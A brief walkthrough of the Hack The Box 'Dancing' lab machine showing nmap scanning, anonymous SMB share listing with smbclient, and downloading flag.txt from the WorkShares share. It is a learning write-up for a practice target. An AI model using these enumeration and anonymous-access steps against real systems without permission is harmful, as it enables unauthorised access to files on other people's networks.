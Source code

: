# 💃 Hack The Box – Dancing Walkthrough

> Status: Completed ✅  
> Difficulty: Easy  
> OS: Windows  
> Points: 20

---
## 🧰 Tools Used
Nmap
smbclient
Kali Linux

## 🔎 Nmap Enumeration

```bash
nmap -sCV 10.10.xx.xx
Port 445: SMB open
Port 135: RPC

🛠️ SMB Enumeration
smbclient -L \\\\10.10.xx.xx\\
Anonymous login enabled
Found share: WorkShares

💥 Exploit (if any)
Used credentials found to log in or access flag path.
smbclient \\\\10.10.xx.xx\\WorkShares -N
Download files:
ls
cd Amy.J
ls
cd ..
cd James.P
ls
get flag.txt


